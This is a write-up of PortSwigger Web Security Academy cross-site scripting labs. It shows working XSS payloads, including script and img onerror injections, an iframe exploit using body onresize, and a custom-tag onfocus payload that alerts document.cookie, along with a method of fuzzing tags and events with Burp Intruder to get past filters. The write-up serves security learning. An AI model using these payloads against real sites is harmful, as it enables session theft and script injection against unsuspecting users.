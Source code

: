 # 🪞 Reflected XSS

When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>

Some useful ways of executing JavaScript are:

`<script>alert(document.domain)</script> <img src=1 onerror=alert(1)>`

### Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with nothing encoded

This one was pretty straightforward:

```
<script>alert(1)</script>
```

<figure><img src="../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>

### Lab: [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) into HTML context with nothing encoded

This one was still easy but interesting to see the process:

We find a message input and decide to inject the same payload:

```
<script>alert(1)</script>
```

Once we send the message, we can refresh the page and see our XSS:

<figure><img src="../../.gitbook/assets/image (867).png" alt=""><figcaption></figcaption></figure>

### Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with most tags and attributes blocked

We have a webpage and a exploit server:

we try injecting this:

```
<img src=1 onerror=print()>
```

<figure><img src="../../.gitbook/assets/image (869).png" alt=""><figcaption></figcaption></figure>

but we get a "tag not allowed" message

Now a very interesting technique, we capture the req, remove the payload and put <> in it, select in between and add 2 payloads like this:

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

We go on the cheat sheet and copy the tags:

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

after launching the attack with the intruder, we quickly see that the "body" is the good tag:

&#x20;

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>

So we go on the positions tab and add the following tag and create a new intruder payload position just before the =:

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

Then go back to the cheat sheet, copy all events and start again with the attack:

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

There are a few events that triggered a 200 response:

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

```
<iframe src="https://0a71007c048e9ed581f89ddd006100c9.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

* `<iframe src="https://0a71007c048e9ed581f89ddd006100c9.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E"`: This part creates an `<iframe>` element with its `src` attribute pointing to a website. The website URL includes a parameter `search` with encoded characters, specifically `%22%3E%3Cbody%20onresize=print()%3E`, which when decoded translates to `"><body onresize=print()>`. This part of the payload is attempting to inject malicious code into the website.
* `onload=this.style.width='100px'`: This part is JavaScript code. It sets the width of the iframe to 100 pixels when the iframe is loaded. This could be an attempt to hide the injected content or make it less noticeable.
* The injected JavaScript code `<body onresize=print()>` attaches an event handler to the `<body>` element of the target webpage. This event handler is triggered when the user resizes the browser window. When triggered, it executes the `print()` function, which typically prints the current webpage. This can be used by an attacker to perform actions on behalf of the user, such as stealing sensitive information or performing malicious actions.

We then go to the exploit server, store and exploit this payload in the body and complete the lab just like this:

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>

### Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with all tags blocked except custom ones

we first see that we've got the same "tag not allowed" error

So we go on the same methodology as earlier:

We copy and paste all of the tags and use intruder to find the perfect one:

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

So i first hop on hacktricks:

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#custom-tags" %}

We find this payload that will be a big part of the payload:

```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

and are able to craft the following payload:

```
<script>
location = 'https://0a9d003a03a2136280edfd800017004c.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

* `<script>`: This tag is used to define a client-side script, typically JavaScript.
* `location = 'https://0a9d003a03a2136280edfd800017004c.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';`: This line sets the `location` property of the current window to a URL. The URL in this case points to a specific website (`https://0a9d003a03a2136280edfd800017004c.web-security-academy.net/`) and includes a query parameter `search`.
* `search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E`: This parameter is URL-encoded. When decoded, it translates to `<xss id=x onfocus=alert(document.cookie) tabindex=1>`. This part of the URL payload is attempting to inject a malicious script into the target webpage.
* The injected script `<xss id=x onfocus=alert(document.cookie) tabindex=1>` sets up an XSS payload. Specifically, it attaches an `onfocus` event handler to an element with the id `x`. When this element receives focus (e.g., through user interaction), the `alert(document.cookie)` function is executed. This function displays the cookies associated with the current webpage, which can contain sensitive information like session tokens or user credentials.
